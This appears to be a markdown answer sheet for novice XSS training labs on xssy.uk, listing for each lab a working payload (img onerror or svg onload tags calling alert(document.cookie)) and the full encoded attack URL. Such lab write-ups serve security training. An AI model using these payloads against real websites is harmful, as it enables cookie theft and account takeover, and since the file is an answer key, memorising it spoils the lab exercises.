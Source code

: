 # XSS Lab Solutions

Source: https://xssy.uk/allLabs

---

## Novice Level

### Lab 1: Reflected XSS
- **URL Lab**: https://xssy.uk/lab/1
- **Payload**: 
```html
<img src=x onerror=alert(document.cookie)>
```
- **Full URL**: 
```
https://4ua2fzgq.xssy.uk/target.ftl?name=%3Cimg%20src=x%20onerror=alert(document.cookie)%3E
```

---

### Lab 3: DOM XSS
- **URL Lab**: https://xssy.uk/lab/3
- **Payload**: 
```html
<img src=x onerror=alert(document.cookie)>
```
- **Full URL**: 
```
https://7axgjmar.xssy.uk/target.ftl?name=%3Cimg%20src=x%20onerror=alert(document.cookie)%3E
```

---

### Lab 176: Stored XSS
- **URL Lab**: https://xssy.uk/lab/176
- **Payload**: 
```html
</p><img src=x onerror=alert(document.cookie)>
```
- **Full URL**: 
```
https://xn3lrjf6.xssy.uk/target.ftl?name=%3C%2Fp%3E%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E
```

---

### Lab 164: Clientside Validation Bypass
- **URL Lab**: https://xssy.uk/lab/164
- **Payload**: 
```html
fck<svg onload=alert(document.cookie)>
```
- **Full URL**: 
```
https://fygkuqjd.xssy.uk/target.ftl?name=fck%3Csvg%20onload=alert(document.cookie)%3E
```
- **Description**: `<>` blocked if in first character

---